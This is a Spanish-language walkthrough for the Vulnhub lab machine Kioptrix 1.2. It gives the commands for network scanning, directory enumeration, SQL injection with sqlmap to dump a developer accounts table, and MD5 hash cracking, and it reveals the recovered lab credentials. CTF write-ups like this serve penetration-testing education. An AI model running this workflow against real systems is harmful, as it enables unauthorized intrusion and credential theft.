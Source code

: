 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=390&height=80&lines=KIOPTRIX_1.2"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/kioptrix-level-12-3,24/

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con Arp-Scan. 
```
arp-scan --interface wlan0 -l
```
![1](https://user-images.githubusercontent.com/75953873/177891939-07f2e077-4b7a-4f04-9e6f-80c2e43d1a13.png)

IP host: `192.168.1.4`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.4
```
![2](https://user-images.githubusercontent.com/75953873/177892039-39832af6-5bbd-4ba1-9581-85abf27bffa0.png)

Puertos abiertos: [22,80]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 22,80 -A 192.168.1.4
```
![3](https://user-images.githubusercontent.com/75953873/177892640-8cd728ec-bbdd-4f6c-a2ec-2d1a55a17fa4.png)

Servidor corriendo: **HTTP Apache**

O.S: **Linux**

Modificar registro de DNS:
```
sudo nano /etc/hosts
192.168.1.4     kioptrix3.com
```
![5](https://user-images.githubusercontent.com/75953873/177894609-f8736c6f-88f5-4589-8537-b830f3aea646.png)

URL: `kioptrix3.com`

![4](https://user-images.githubusercontent.com/75953873/177894662-86f2e2d9-11d0-4e68-9d8b-eea8d94020b3.png)
 
- *Paso 4:* Enumerar directorios con Dirb. 
```
dirb http://kioptrix3.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![8](https://user-images.githubusercontent.com/75953873/177896088-d5bd5588-f32e-4391-ba4c-b3eb77cd2cfa.png)

```
dirb http://kioptrix3.com/gallery -X .php
```
![9](https://user-images.githubusercontent.com/75953873/177896489-33c3d635-4b79-4885-959f-ee23c9f644ee.png)

URL: `http://kioptrix3.com/gallery/gallery.php?id=1'`

![10](https://user-images.githubusercontent.com/75953873/177896633-3865f18f-a058-4598-a58b-a8172b935124.png)

- *Paso 4:* Inyección SQL con Sqlmap.
```
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" --dbs --batch
```
![11](https://user-images.githubusercontent.com/75953873/177897124-cea5badf-f09c-4cfa-beec-997462e2655c.png)

Enumerar base de datos `gallery`:
```
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -D gallery --dump --batch
```
![12](https://user-images.githubusercontent.com/75953873/177897559-e09a4acd-cad1-4bed-8435-5ba220183ab2.png)

Imprimir tablas `dev_accounts`:
```
sqlmap -u "http://kioptrix3.com/gallery/gallery.php?id=1" -D gallery -T dev_accounts --dump --batch
```
![13](https://user-images.githubusercontent.com/75953873/177898181-fd42d4ba-e68a-4e0e-9257-b82883f0c1e8.png)

- *Paso 5:* Identificar hash y crackearlo.
```
hash-identifier
```
![15](https://user-images.githubusercontent.com/75953873/177899147-49dace0d-0eac-4835-8f1a-0e86660302c9.png)

Tipo de hash: **MD5**

Crackearlo con hashCRACK:

Herramienta: https://github.com/R3LI4NT/hashCrack
```
python3 hashcrack.py --md5 5badcaf789d3d1d09794d8f021f40f0e -w /usr/share/wordlists/rockyou.txt
```

Usuario: `loneferret`

Contraseña: `starwars`
